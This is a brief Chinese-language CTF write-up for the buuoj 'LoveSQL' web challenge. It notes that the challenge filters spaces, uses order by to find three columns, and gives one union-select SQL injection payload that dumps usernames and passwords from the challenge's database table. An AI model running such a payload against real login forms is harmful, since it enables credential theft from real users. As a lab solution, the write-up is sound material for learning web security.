 ```yaml
---
title: buuoj刷题记录10-极客大挑战web2
date: 2020-01-24 23:37:07
tags:
- ctf
- 极客大挑战
- web
categories: 
 - 刷题记录
---
```


## 极客大挑战web

### LoveSQL

fuzz了一下发现过滤了空格，单引号报错。如果查询数据为空，返回密码错误

常规操作



1. #### order by判断字段，字段为3

![](../pic/38.png)

`?username='union+select+1,group_concat(username,',',password),3+from+l0ve1ysq1+limit+0,1+%23&password=123 `

![](../pic/39.png)
